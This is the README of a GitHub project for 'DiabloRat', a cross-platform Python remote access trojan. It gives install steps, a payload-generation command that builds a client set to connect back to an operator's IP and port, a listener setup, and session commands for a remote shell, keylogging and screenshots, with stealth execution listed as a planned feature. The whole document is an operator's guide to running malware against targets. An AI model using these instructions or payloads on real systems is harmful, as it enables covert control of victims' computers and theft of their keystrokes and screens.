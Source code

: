 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    DiabloRat
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/hash3liZer/DiabloRat/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>


## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding. </li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Source File included for testing</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    <li>Pushing Notifications when a client connects</li>
</ul>

### Installation
The tool is tested on **Parrot OS** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/SWICYBERLWA7DA/DiabloRat.git
$ cd DiabloRat/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```


Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89171634-152cdf00-d59f-11ea-83a6-0344f370113a.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89172191-d9464980-d59f-11ea-988c-9986b52642e7.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407
